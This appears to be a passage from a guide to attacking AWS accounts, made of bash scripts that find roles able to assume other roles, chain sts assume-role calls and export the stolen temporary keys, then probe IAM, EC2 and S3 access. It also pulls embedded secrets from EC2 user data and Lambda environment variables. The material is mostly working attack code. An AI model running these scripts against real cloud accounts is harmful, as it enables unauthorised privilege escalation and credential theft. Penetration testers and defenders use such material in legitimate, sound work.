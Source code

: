 ### Role Chain Discovery

```bash
# Find roles that can assume other roles
aws iam list-roles | jq -r '.Roles[].RoleName' | \
while read role; do
    echo "Checking role: $role"
    aws iam list-attached-role-policies --role-name $role | jq -r '.AttachedPolicies[].PolicyArn' | \
    while read policy; do
        aws iam get-policy-version --policy-arn $policy --version-id v1 | \
        jq -r --arg role "$role" '
        select(.PolicyDocument.Statement[]?.Action[]? | test("sts:AssumeRole")) |
        "Role \($role) can assume other roles via policy \(input_filename)"
        '
    done
done

# Test role assumption chains
cat > test_role_chain.sh << 'EOF'
#!/bin/bash
ORIGINAL_CREDS=$(aws sts get-caller-identity)
echo "Starting as: $ORIGINAL_CREDS"

for role_arn in "$@"; do
    echo "Attempting to assume role: $role_arn"
    TEMP_CREDS=$(aws sts assume-role --role-arn $role_arn --role-session-name "escalation-test" --query 'Credentials.[AccessKeyId,SecretAccessKey,SessionToken]' --output text)

    if [ $? -eq 0 ]; then
        export AWS_ACCESS_KEY_ID=$(echo $TEMP_CREDS | cut -f1)
        export AWS_SECRET_ACCESS_KEY=$(echo $TEMP_CREDS | cut -f2)
        export AWS_SESSION_TOKEN=$(echo $TEMP_CREDS | cut -f3)

        echo "Successfully assumed role. New identity:"
        aws sts get-caller-identity

        # Test escalated permissions
        aws iam list-users --max-items 1 >/dev/null 2>&1 && echo "Can list IAM users"
        aws ec2 describe-instances --max-items 1 >/dev/null 2>&1 && echo "Can list EC2 instances"
        aws s3 ls >/dev/null 2>&1 && echo "Can list S3 buckets"
    fi
done
EOF
chmod +x test_role_chain.sh
```

### Secrets and Credential Discovery

```bash
# Search for embedded credentials in user data
aws ec2 describe-instances --query 'Reservations[].Instances[].UserData' --output text | base64 -d | grep -E "(aws|secret|key|password)"

# Check for credentials in Lambda environment variables
aws lambda list-functions | jq -r '.Functions[].FunctionName' | \
while read func; do
    echo "Checking Lambda function: $func"
    aws lambda get-function-configuration --function-name $func | \
    jq -r '.Environment.Variables // {} | to_entries[] | select(.key | test("(?i)(aws|secret|key|password)")) | "\(.key): \(.value)"'
done

# Scan Parameter Store for sensitive values
```